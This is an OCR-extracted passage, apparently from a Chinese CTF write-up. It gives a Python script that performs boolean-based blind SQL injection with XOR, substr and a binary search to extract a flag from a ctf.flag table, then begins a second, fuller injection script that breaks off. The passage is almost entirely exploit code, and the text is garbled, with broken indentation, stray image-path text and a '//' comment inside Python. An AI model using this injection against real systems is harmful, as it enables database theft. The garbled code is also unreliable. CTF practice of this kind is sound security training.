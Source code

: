     # 查询flag
    sql = "1^(ord(substr((select(group_concat(value))from(ctf.flag)),%d,1))>%d)^1" % (i, j)
    data = {"stunum": sql} //这里修改注入的id
    r = requests.get(url, params=data)
    # print (r.url)
    if "Hi admin, your score is: 100" in r.text:
        res = 1
    else:
        res = 0
    return res


	def exp():
    global flag
    for i in range(1, 10000):
        print(i, ':')
        low = 32
        high = 128
        while low <= high:
            mid = (low + high) // 2
            res = payload(i, mid)
            if res:
                low = mid + 1
            else:
                high = mid - 1
        f = int((low + high +1)) // 2
        if (f == 132 or f == 32):
            break
        # print (f)
        flag += chr(f)
        print(flag)


	exp()
	print('flag=', flag)

直接就能得到flag。  

下面附上找到的网上的另一个比较全的python脚本  

	# -*- coding:utf-8 -*-
	# Author: mochu7
	import requests

	def ascii_str():#生成库名表名字符所在的字符列表字典
	str_list=[]
	for i in range(33,127):#所有可显示字符
		str_list.append(chr(i))
	#print('可显示字符：%s'%str_list)
	return str_list#返回字符列表
